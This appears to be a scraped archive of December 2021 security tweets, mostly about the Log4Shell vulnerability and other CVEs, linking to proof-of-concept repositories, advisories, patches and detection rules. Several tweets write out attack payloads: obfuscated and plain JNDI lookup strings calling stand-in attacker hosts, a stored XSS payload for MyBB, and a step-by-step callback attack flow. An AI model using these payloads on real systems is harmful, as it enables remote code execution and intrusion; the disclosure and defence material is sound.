
# ya_and_alone
**https://twitter.com/ya_and_alone/status/1469985146103160832 _at 2021-12-12 10:59:04_**
<blockquote>
CVE-2021-22205 Gitlab Remote Code Execution

11.9 &lt;= Gitlab CE/EE &lt; 13.8.8
13.9 &lt;= Gitlab CE/EE &lt; 13.9.6
13.10 &lt;= Gitlab CE/EE &lt; 13.10.3

PoC：
https://t.co/YFTjvnMZem

#bugbounty #bugbountytips #infosec #infosecurity #cybersecurity
</blockquote>

* https://github.com/0x0021h/expbox/blob/main/CVE-2021-22205.py

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1469982905070125063 _at 2021-12-12 10:50:10_**
<blockquote>
8. ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}

https://t.co/ru5arGB6ZI
</blockquote>

* https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# threedr3am1
**https://twitter.com/threedr3am1/status/1469911160111566851 _at 2021-12-12 06:05:04_**
<blockquote>
Congratulations to SecCoder Security Lab for welcoming two CVEs.
h2 XML External Entity (XXE) Injection [CVE-2021-23463]: https://t.co/OWjz7JxxTy
Spring Cloud Netflix Hystrix Dashboard template resolution vulnerability[CVE-2021-22053]: https://t.co/olan3QIjeS https://t.co/U0lIMFRWwP
</blockquote>

* https://security.snyk.io/vuln/SNYK-JAVA-COMH2DATABASE-1769238
* https://tanzu.vmware.com/security/cve-2021-22053

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1469904367281229824 _at 2021-12-12 05:38:05_**
<blockquote>
Microsoft is tracking threats taking advantage of the CVE-2021-44228 remote code execution (RCE) vulnerability in Apache Log4j 2 ("Log4Shell"). Get technical info and guidance for preventing, detecting, and hunting for related attacks: https://t.co/vOB7R1LXlj
</blockquote>

* https://msft.it/6019ZENIW

<table><tr>
<td>Quotes: <code>31</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>495</code></td>
<td>Favorites: <code>889</code></td>
</tr></table>

---

# eMbeddedHome
**https://twitter.com/eMbeddedHome/status/1469849173411389442 _at 2021-12-12 01:58:46_**
<blockquote>
😱  #log4j  CVE-2021-44228
#0day
ℹ️ https://t.co/FGqZ0aZNxg

#Affected
- #CADENCE SPB_XX PCBDW
- #86DUINO
...

ℹ️  Log4j is a popular logging library for Java applications.

#VulnerabilityCheckScript
ℹ️ https://t.co/gGBYC3aCFb

#PoC Remote Code Execution
https://t.co/R45SPuci67
</blockquote>

* https://www.lunasec.io/docs/blog/log4j-zero-day/
* https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6
* https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>5</code></td>
</tr></table>

---

# DjnDoojan
**https://twitter.com/DjnDoojan/status/1469751995431112707 _at 2021-12-11 19:32:37_**
<blockquote>
Log4J-RCE-Proof-Of-Concept (CVE-2021-44228)

https://t.co/ghxxiI2k2U
</blockquote>

* https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# pedrohavay
**https://twitter.com/pedrohavay/status/1469746460086390790 _at 2021-12-11 19:10:37_**
<blockquote>
PoC exploit for CVE-2021-43798 vulnerability in #grafana Unauthorized Arbitrary File Read. Allows access to local files through a vulnerable URL to directory traversal.

#bugbountytips #exploit #PoC

https://t.co/oIaSLEriLj
</blockquote>

* https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# vxunderground
**https://twitter.com/vxunderground/status/1469713783308357633 _at 2021-12-11 17:00:46_**
<blockquote>
Gomorrah stealer group, or an individual who purchased Gomorrah stealer, left the panel source code exposed online. We have added it to the VXUG Panel source code collection.

Thanks to @ViriBack for sharing the exposed domain.

You can check it out here: https://t.co/5RHeEYWYth
</blockquote>

* https://github.com/vxunderground/MalwareSourceCode

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1469522411770974209 _at 2021-12-11 04:20:20_**
<blockquote>
⚡ #Log4Shell / CVE-2021-44228 / CVSS 10

A new highly critical RCE #vulnerability in the Java-based #Log4J logging library affects a large number of applications and services on the Internet.

Details — https://t.co/aHGWuHZA5l

#infosec #cybersecurity #hacking #technews
</blockquote>

* https://thehackernews.com/2021/12/extremely-critical-log4j-vulnerability.html

<table><tr>
<td>Quotes: <code>20</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>243</code></td>
<td>Favorites: <code>367</code></td>
</tr></table>

---

# nixcraft
**https://twitter.com/nixcraft/status/1469511453187006465 _at 2021-12-11 03:36:47_**
<blockquote>
Java is the #1 enterprise language. Bank &amp; other places I spent, Java and its ecosystem were huge. A 0day exploit affecting the popular Apache Log4j utility (CVE-2021-44228) was made public recently, resulting in RCE. You need at least v2.15.0 to patch it https://t.co/pPQZa8q483
</blockquote>

* https://logging.apache.org/log4j/2.x/download.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---

# d0znpp
**https://twitter.com/d0znpp/status/1469481484033531904 _at 2021-12-11 01:37:42_**
<blockquote>
Hey! This log4j “0day” is at least 9 months old. #Log4j f*d everyone including @Tesla, @Apple and @Microsoft a while ago. https://t.co/Fb7x8pYHGb
</blockquote>

* https://github.com/nice0e3/log4j_POC

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# butch7903
**https://twitter.com/butch7903/status/1469465289108729865 _at 2021-12-11 00:33:20_**
<blockquote>
Perfect 10.0 security vulnerability found in most VMware products. Please spread the word to make everyone aware.

VMSA-2021-0028 - VMware Response to Apache Log4j Remote Code Execution Vulnerability (CVE-2021-44228)

Info: https://t.co/y3iiAOdhwq
#vExpert  #log4j #VMUG
</blockquote>

* https://www.vmware.com/security/advisories/VMSA-2021-0028.html

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# fastly
**https://twitter.com/fastly/status/1469439041942786051 _at 2021-12-10 22:49:03_**
<blockquote>
In this blog, our Security Research Team explains the Apache Log4j vulnerability (CVE-2021-44228), which is being exploited actively.

Read on for our observations into the exploit, a summary of its impact, and remediation tips for our customers: https://t.co/l8DXMxvPzg
</blockquote>

* https://fastly.us/3IAJZv7

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# christophetd
**https://twitter.com/christophetd/status/1469413213779505157 _at 2021-12-10 21:06:25_**
<blockquote>
The repository now contains both a vulnerable web application and the precise exploitation steps to RCE. Hopefully this will be useful for defenders crafting detection rules!

https://t.co/PR7GbSlFhG
</blockquote>

* https://github.com/christophetd/log4shell-vulnerable-app

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# therceman
**https://twitter.com/therceman/status/1469383899394490368 _at 2021-12-10 19:09:56_**
<blockquote>
Apache log4j v2.0 - 2.14.1 RCE

Java logging library, log4j, has an unauthenticated RCE vulnerability if a user-controlled string is logged

Exploit Test Environment
https://t.co/x4OhLwXJqc

#rce #log4j #Log4Shell #apache
#bugbountytips #Bugbounty
#CyberSecurity #infosecurity https://t.co/zJ7dvu4UBl
</blockquote>

* https://github.com/leonjza/log4jpwn

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>117</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1469352402545483790 _at 2021-12-10 17:04:46_**
<blockquote>
Upgrade ASAP to protect yourself from the #RCE vulnerability, CVE-2021-44228, affecting Apache Log4j. Read more at https://t.co/Cx6dPwwdmG  #ZeroDay #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xeATj

<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>267</code></td>
<td>Favorites: <code>383</code></td>
</tr></table>

---

# ET_Labs
**https://twitter.com/ET_Labs/status/1469339963871354884 _at 2021-12-10 16:15:21_**
<blockquote>
We've released out-of-band #Suricata and #Snort IDS signature coverage for CVE-2021-44228 #log4j RCE.  These are ET Open free community detections to alert on current exploit activity.  SID range 2034647-2034652.  https://t.co/j7Vc3tNy6L
</blockquote>

* https://rules.emergingthreatspro.com/open/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>167</code></td>
</tr></table>

---

# dannyjpalmer
**https://twitter.com/dannyjpalmer/status/1469339399771066377 _at 2021-12-10 16:13:06_**
<blockquote>
A newly discovered zero-day vulnerability in widely used Java logging library Apache Log4j is easy to exploit and enables attackers to gain full control of affected 
servers. 

My write-up on Log4Shell/CVE-2021-44228.

https://t.co/3GruwCUWbh via @ZDNet
</blockquote>

* https://zd.net/3DUGR9T

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1469334738225741832 _at 2021-12-10 15:54:35_**
<blockquote>
Due to the severity of this vulnerability, we are going to regularly updating the IPs that have been tagged as exploiting Apache Log4J CVE-2021-44228 for non-GreyNoise users.

https://t.co/NxcIwzWs6J

Follow this thread for updates.
</blockquote>

* https://gist.github.com/gnremy/c546c7911d5f876f263309d7161a7217

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1469326260803416073 _at 2021-12-10 15:20:53_**
<blockquote>
GreyNoise is detecting a sharply increasing number of hosts opportunistically exploiting Apache Log4J CVE-2021-44228. Exploitation occurring from ~100 distinct hosts, almost all of which are Tor exit nodes. Tags available to all users and customers now. 

https://t.co/JF3tUkpIrq https://t.co/CTMi0IWQ5j
</blockquote>

* https://www.greynoise.io/viz/query/?gnql=tags%3A%22Apache%20Log4j%20RCE%20Attempt%22

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>137</code></td>
</tr></table>

---

# NotMedic
**https://twitter.com/NotMedic/status/1469314315614314505 _at 2021-12-10 14:33:26_**
<blockquote>
DNS lookups are cool and all, but this is what you'll need to turn CVE-2021-44228 into RCE:
https://t.co/ejc6u6PRfW
</blockquote>

* https://github.com/welk1n/JNDI-Injection-Exploit

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>342</code></td>
</tr></table>

---

# sans_isc
**https://twitter.com/sans_isc/status/1469305954835521539 _at 2021-12-10 14:00:12_**
<blockquote>
Apache #log4j2 exploitation in full swing. PATCH NOW!! CVE-2021-44228 . 200+ exploit attempts against our honeypot so far from approx 100 sources. "bingsearchlib[.]com:39356" is particularly popular #log4j #cve202144228 #rce #0day #PATCHNOW https://t.co/TySpQ7zVMN
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>78</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# yazicivo
**https://twitter.com/yazicivo/status/1469299131688566794 _at 2021-12-10 13:33:05_**
<blockquote>
Log4j JNDI lookup RCE vulnerability (CVE-2021-44228) has shown that many tech giants have pretty liberal egress policies: https://t.co/z6grf2guKM 😞
</blockquote>

* https://github.com/YfryTchsGD/Log4jAttackSurface

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>20</code></td>
</tr></table>

---

# musalbas
**https://twitter.com/musalbas/status/1469297973704245260 _at 2021-12-10 13:28:29_**
<blockquote>
This log4j exploit = remote code execution in basically everything

Arbitrary code execution in iCloud, Twitter, Steam, CloudFlare, Amazon, Tesla, Baidu, Tencent

This may well be devastating 0day RCE exploit that has ever been dropped in all of history.

https://t.co/CeQNtSBpZV https://t.co/jYkmdVfdyK
</blockquote>

* https://github.com/YfryTchsGD/Log4jAttackSurface

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>210</code></td>
<td>Replies: <code>70</code></td>
<td>Retweets: <code>778</code></td>
<td>Favorites: <code>2083</code></td>
</tr></table>

---

# _JohnHammond
**https://twitter.com/_JohnHammond/status/1469290505183940617 _at 2021-12-10 12:58:49_**
<blockquote>
@MixedNuts0 Zero-day vulnerability (now CVE-2021-44228) in Java logging package "log4j", offering a threat actor remote code execution and affecting an enormous amount of software that bundles it (not just Minecraft). I'm trying to recreate it within Minecraft https://t.co/WbXy600Sd1
</blockquote>

* https://arstechnica.com/information-technology/2021/12/minecraft-and-other-apps-face-serious-threat-from-new-code-execution-bug/

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>236</code></td>
</tr></table>

---

# christophetd
**https://twitter.com/christophetd/status/1469290032867557381 _at 2021-12-10 12:56:56_**
<blockquote>
I released a small Spring Boot web application vulnerable to Log4Shell so everyone can easily play with it.

https://t.co/PR7GbSlFhG

cc @LunaSecIO #log4j https://t.co/2WkQfJY4ET
</blockquote>

* https://github.com/christophetd/log4shell-vulnerable-app

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# BleepinComputer
**https://twitter.com/BleepinComputer/status/1469280399532695552 _at 2021-12-10 12:18:39_**
<blockquote>
@serghei Apache has released Log4j 2.15.0 to address the maximum severity CVE-2021-44228 RCE vulnerability.

https://t.co/PzSkXJUxEi

Mitigation for previous releases (&gt;=2.10): set system property "log4j2.formatMsgNoLookups" to "true" or remove the JndiLookup class from the classpath.
</blockquote>

* https://logging.apache.org/log4j/2.x/download.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1469265728712945673 _at 2021-12-10 11:20:22_**
<blockquote>
Someone has created a GitHub repo with services / products that seem to be affected by the #log4j RCE vulnerability 

via @zero_B_S

as I've said earlier - it's a new shellshock like vulnerability 

https://t.co/1816M9Y0zS
</blockquote>

* https://github.com/YfryTchsGD/Log4jAttackSurface

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>184</code></td>
<td>Favorites: <code>413</code></td>
</tr></table>

---

# circl_lu
**https://twitter.com/circl_lu/status/1469261434446036997 _at 2021-12-10 11:03:18_**
<blockquote>
TR-65 - Vulnerabilities and Exploitation of Log4j (Remote code injection in Log4j)

https://t.co/YqFmTTFQFK

We will update regularly the TR with additional information.  CVE-2021-44228 https://t.co/4GNcI1CmdA
</blockquote>

* https://www.circl.lu/pub/tr-65/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# volker_simonis
**https://twitter.com/volker_simonis/status/1469256987196100608 _at 2021-12-10 10:45:37_**
<blockquote>
I've written a simple (i.e. standalone, no dependencies) Java program which patches JndiLookup.lookup() to return a fixed string and not parse its arguments. This should fix CVE-2021-44228 (i.e. RCE in Log4j) without restarting your JVM process. #Log4J

https://t.co/43wZBX6HZZ
</blockquote>

* https://github.com/simonis/Log4jPatch

<table><tr>
<td>Quotes: <code>35</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>347</code></td>
<td>Favorites: <code>1166</code></td>
</tr></table>

---

# BurpBounty
**https://twitter.com/BurpBounty/status/1469249786092085249 _at 2021-12-10 10:17:01_**
<blockquote>
CVE-2021-44228 Log4j RCE Burp Bounty Pro Profile Available!

Log4j versions prior to 2.15.0 are subject to a remote code execution vulnerability via the ldap JNDI parser.

If your are a Burp Bounty Pro user, you can download now the profile at:

https://t.co/2lXRz3gwkQ
</blockquote>

* https://burpbounty.net/cve-2021-44228-log4j-rce/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# artsploit
**https://twitter.com/artsploit/status/1469245422153699329 _at 2021-12-10 09:59:40_**
<blockquote>
log2j RCE (CVE-2021-44228): You may find my Rogue JNDI tool useful for exploitation. Just run the server and send ${jndi:ldap://attacker.com/o=tomcat} payload to the victim https://t.co/XS3bkt9QjX
</blockquote>

* https://github.com/veracode-research/rogue-jndi

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>146</code></td>
<td>Favorites: <code>484</code></td>
</tr></table>

---

# dcuthbert
**https://twitter.com/dcuthbert/status/1469221815952289793 _at 2021-12-10 08:25:52_**
<blockquote>
Log4j RCE found, which could make life a bit miserable for those who use it 

${jndi:ldap://atoteslegitsitewhilistedbyall.com/a}

--&gt; https://t.co/hGUMTDDcsF

oh dears....

https://t.co/Go4PnBCzs3
</blockquote>

* http://pickyourfavadnetwork.com/pwnme.class
* https://github.com/tangxiaofeng7/apache-log4j-poc

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# JLLeitschuh
**https://twitter.com/JLLeitschuh/status/1469148466341416964 _at 2021-12-10 03:34:24_**
<blockquote>
So this Log4J JNDI vulnerability (CVE-2021-44228) is nasty.

From my understanding, any user input being logged is a potential RCE vector.

This logging framework is used everywhere in the JVM ecosystem.

😬😩
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# jschauma
**https://twitter.com/jschauma/status/1469137538598195204 _at 2021-12-10 02:50:59_**
<blockquote>
Oy, this looks juicy: RCE in log4j

- send data to vulnerable server
- server makes callback to your server via jndi:ldap://attacker/a
- you serve the exploit.class
- victim executed injected code

https://t.co/fis7qBINXu
https://t.co/UiSunvdpTj
</blockquote>

* https://www.lunasec.io/docs/blog/log4j-zero-day/
* https://github.com/Al0sc/Log4j-rce

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---

# hkashfi
**https://twitter.com/hkashfi/status/1469102998190182406 _at 2021-12-10 00:33:44_**
<blockquote>
Apache Log4j RCE. This one is pretty cool actually! 
Gotta test if injected as part of a log string also works or not. 
If yes, then, well… FUCK! https://t.co/zaAbw4CUag
</blockquote>

* https://github.com/tangxiaofeng7/apache-log4j-poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---

# kozmic
**https://twitter.com/kozmic/status/1469059931949076483 _at 2021-12-09 21:42:36_**
<blockquote>
All log4j version 2.0 - 2.14.1 are vulnerable to Remote code execution if any user input is logged. Patched in 2.15.0-rc1. I've successfully verified the PoC in a Spring Boot app.

Original Alibaba Cloud advisory: https://t.co/B6cuc6tFWB

PoC: https://t.co/Zj1dSYNUA8
</blockquote>

* https://help.aliyun.com/noticelist/articleid/1060971232.html
* https://github.com/tangxiaofeng7/apache-log4j-poc

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# TJ_Null
**https://twitter.com/TJ_Null/status/1469006847449440262 _at 2021-12-09 18:11:39_**
<blockquote>
How I feel about Raspberry PI Default Credentials being added as a CVE... CVE-2021-38759  🤦‍♂️ https://t.co/JMhDOYY5N7
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>124</code></td>
</tr></table>

---

# 80vul
**https://twitter.com/80vul/status/1468968891489857537 _at 2021-12-09 15:40:50_**
<blockquote>
Please set log4j2.formatMsgNoLookups to true, or you should upgrade to log4j-2.15.0-rc1 https://t.co/rWNshVfUX0 to defend the latest apache log4j2 RCE vulnerability 🤣
</blockquote>

* https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1

<table><tr>
<td>Quotes: <code>45</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>251</code></td>
<td>Favorites: <code>480</code></td>
</tr></table>

---

# ksg93rd
**https://twitter.com/ksg93rd/status/1468947690641838080 _at 2021-12-09 14:16:35_**
<blockquote>
#exploit
CVE-2021-38314:
The Gutenberg Template Library &amp; Redux Framework plugin &lt;=4.2.11 for WordPress - Unauthenticated Sensitive Information Disclosure
https://t.co/UcyN3ppumY
</blockquote>

* https://github.com/oxctdev/CVE-2021-38314

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1468847079514681346 _at 2021-12-09 07:36:48_**
<blockquote>
HackGit
VMware vCenter 7.0.2 unauth Arbitrary File Read + #SSRF + Reflected #XSS https://t.co/u7ra9IdIOw CVE-2021-30625: Google Chrome Blink setBaseAndExtent use after free vulnerability https://t.co/YFI62kqeGq… https://t.co/whPlOyEaYW

CVE-2021-43798:… https://t.co/KHJKvV4WIh https://t.co/yd3FvmFqMy
</blockquote>

* https://github.com/l0ggg/VMware_vCenter
* https://talosintelligence.com/vulnerability_reports/TALOS-2021
* https://t.me/hackgit/2241
* https://t.me/hackgit/2335

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1468690754964967430 _at 2021-12-08 21:15:37_**
<blockquote>
Another day, another Zoho RCE.

CVE-2021-44077 for #ManageEngine ServiceDesk Plus

* PoC: https://t.co/vMKGLAwCwy
* Research Credit: https://t.co/c95Rmcl0VB https://t.co/EY541uuK2P
</blockquote>

* https://github.com/horizon3ai/CVE-2021-44077
* https://xz.aliyun.com/t/10631

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---

# RubertPereira
**https://twitter.com/RubertPereira/status/1468567902454435841 _at 2021-12-08 13:07:27_**
<blockquote>
🔥 PoC Exploit de la grave vulnerabilidad en Grafana
- Vulnerabilidad CVE-2021-43798 Path Traversal
https://t.co/EWRahwMmUB
Vía @_0xf4n9x_ https://t.co/eAtFGAoyCC cordiales, soluciones en el Area Informatica Sigueme @Informatico_Mcy
</blockquote>

* https://github.com/jas502n/Grafana-CVE-2021-43798
* https://ift.tt/3y2Oj1e

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# Mesh3lx_911
**https://twitter.com/Mesh3lx_911/status/1468558970302484491 _at 2021-12-08 12:31:57_**
<blockquote>
Here’s our POC for our finding in #Webmin (CVE-2021-31760) where we managed to chain the CSRF that we found with an intended running process feature ending up with a 
1-click RCE.

#TB #infosec

POC:
https://t.co/nNzYrSLAKK
Repo:
https://t.co/Uv0Rdvsgfg
Teammate:
@electronicbots
</blockquote>

* https://youtu.be/D45FN8QrzDo
* https://github.com/Mesh3l911/CVE-2021-31760

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1468529145378443273 _at 2021-12-08 10:33:26_**
<blockquote>
Grafana Path Traversal Vulnerability CVE-2021-43798

Advisory
https://t.co/paILYbwzak

Vulnerable section in code
https://t.co/JsASQjOEuk

... and Github already has the PoCs https://t.co/oPsmUhpMrv
</blockquote>

* https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
* https://twitter.com/TomNomNom/status/1468521389623808002

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# TomNomNom
**https://twitter.com/TomNomNom/status/1468521389623808002 _at 2021-12-08 10:02:37_**
<blockquote>
The cause of CVE-2021-43798 (the Grafana path traversal / file disclosure bug) is kind of interesting and shows the importance of reading and understanding the the docs carefully. Here's the function that's at fault https://t.co/RWWEodMz1D
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>191</code></td>
<td>Favorites: <code>569</code></td>
</tr></table>

---

# VulmonFeeds
**https://twitter.com/VulmonFeeds/status/1468513074298642433 _at 2021-12-08 09:29:35_**
<blockquote>
CVE-2021-41024

FortiOS &amp; FortiProxy -- Path traversal vulnerability. A relative path traversal [CWE-23] vulnerabiltiy in FortiOS and FortiProxy may allow an unauthenticated, unauthorized attacker to inject path tr...

https://t.co/bCQTylPP5O
</blockquote>

* http://vulmon.com/vulnerabilitydetails?qid=CVE-2021-41024

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# theCyberGuy0
**https://twitter.com/theCyberGuy0/status/1468500238856069121 _at 2021-12-08 08:38:35_**
<blockquote>
A simple script to test the Grafana LFI CVE on a targets list:

https://t.co/0TqJ04HZfv

Happy Hunting!

#bugbountytips 
#BugBounty 
#bugbountytip 
#infosec 
#CyberSecurity 
#infosecurity 
#GRAFANA
</blockquote>

* https://github.com/Cyber-Guy1/autoGrafana_LFI

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>75</code></td>
</tr></table>

---

# 11xuxx
**https://twitter.com/11xuxx/status/1468264324997255169 _at 2021-12-07 17:01:08_**
<blockquote>
I guess this brand new Grafana Un-Auth LFI party is over:

https://t.co/QTNpFVyUID
</blockquote>

* https://github.com/jas502n/Grafana-VulnTips

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>138</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1468213521666260994 _at 2021-12-07 13:39:16_**
<blockquote>
🎁 PoC for a stored XSS in MyBB &lt; 1.8.25 (CVE-2021-27279). The vulnerability was found by our researcher Igor Sak-Sakovskiy.

Payload: [email]a@a.a?[email=a@a.a? onmouseover=alert(1) a]a[/email][/email]

Advisory: https://t.co/i7v9mTie2p https://t.co/eHodNO7KZn
</blockquote>

* https://github.com/mybb/mybb/security/advisories/GHSA-6483-hcpp-p75w

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>197</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1467971279894589445 _at 2021-12-06 21:36:41_**
<blockquote>
Python script to #exploit CVE-2020-14321 - Moodle 3.9 - Course enrollments allowed privilege escalation from teacher role into manager role to RCE.

https://t.co/xSXvtyasbc

